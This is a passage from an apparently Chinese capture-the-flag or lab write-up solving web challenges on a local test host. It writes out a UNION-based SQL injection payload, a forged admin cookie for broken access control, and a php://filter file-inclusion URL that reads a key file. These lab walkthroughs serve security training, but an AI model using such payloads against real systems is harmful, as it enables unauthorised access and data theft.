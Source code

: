 有 15 列

```sql
'
Payload: name=%E5%88%98' UNION ALL SELECT CONCAT(0x716a6a7671,0x7562746376476552685441466278697472765a6b444942576450454c4b4277554f4f535253424577,0x717a627a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&submit=%E6%9F%A5%E6%89%BE%E6%82%A3%E8%80%85
```

5、14、11 有回显

![image.png](https://img.ghostliner.top/9wMzHs.png)

## 4. web3：失效的访问控制

**端口**：32770

![image.png](https://img.ghostliner.top/O0YghJ.png)

bp 抓包

![image.png](https://img.ghostliner.top/tu2mZO.png)

鼠标选中，直接解码

![image.png](https://img.ghostliner.top/A5inkI.png)

修改请求头

```ini
isadmin=true
username=YWRtaW4%3d
```

![image.png](https://img.ghostliner.top/ncI3Xt.png)

获取 flag

![image.png](https://img.ghostliner.top/UYrMTr.png)

## 5. web4：文件包含

**端口**：32771

![image.png](https://img.ghostliner.top/SiW3yF.png)

```r
http://192.168.163.132:32771/index.php?file=key.cisp
```

![image.png](https://img.ghostliner.top/Yq47ht.png)

```r
http://192.168.163.132:32771/index.php?file=php://filter/convert.base64-encode/resource=key.cisp
```

